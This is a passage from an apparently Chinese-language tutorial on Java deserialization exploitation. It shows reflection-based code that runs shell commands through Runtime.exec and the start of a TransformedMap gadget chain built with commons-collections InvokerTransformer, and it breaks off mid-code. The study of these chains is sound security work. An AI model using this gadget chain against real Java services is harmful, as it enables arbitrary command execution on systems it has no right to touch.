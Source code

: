 ```java
             * https://docs.oracle.com/javase/8/docs/api/java/lang/Runtime.html
             *
             * Process exec(String[] cmdarray)
             */
        ).exec
        (
            /*
             * 不要问我为什么不用exec(String command)
             */
            new String[]
            {
                "/bin/bash",
                "-c",
                cmd
            }
        );
    }
}
```

上述代码用反射方式执行Runtime.getRuntime().exec()。为什么要用反射方式？因
为反序列化漏洞中经常涉及反射，先来点感性认识。

8.2) TransformedMap利用链

8.2.1) TransformedMapExec.java

```java
*
 * javac -encoding GBK -g -cp "commons-collections-3.1.jar" TransformedMapExec.java
 * java -cp "commons-collections-3.1.jar:." TransformedMapExec "/bin/touch /tmp/scz_is_here"
 */
import java.io.*;
import java.util.*;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.*;
import org.apache.commons.collections.map.TransformedMap;

public class TransformedMapExec
{
    @SuppressWarnings("unchecked")
    public static void main ( String[] argv ) throws Exception
    {
        String          cmd             = argv[0];
        /*
         * https://commons.apache.org/proper/commons-collections/javadocs/api-3.2.2/org/apache/commons/collections/Transformer.html
         * https://commons.apache.org/proper/commons-collections/javadocs/api-3.2.2/org/apache/commons/collections/functors/ConstantTransformer.html
         * https://commons.apache.org/proper/commons-collections/javadocs/api-3.2.2/org/apache/commons/collections/functors/InvokerTransformer.html
         */
        Transformer[]   tarray          = new Transformer[]
        {
            /*
             * ConstantTransformer(Object constantToReturn)
             */
            new ConstantTransformer( Runtime.class ),
            /*
             * InvokerTransformer(String methodName, Class[] paramTypes, Object[] args)
             */
            new InvokerTransformer
            (
                "getMethod",
                new Class[]
```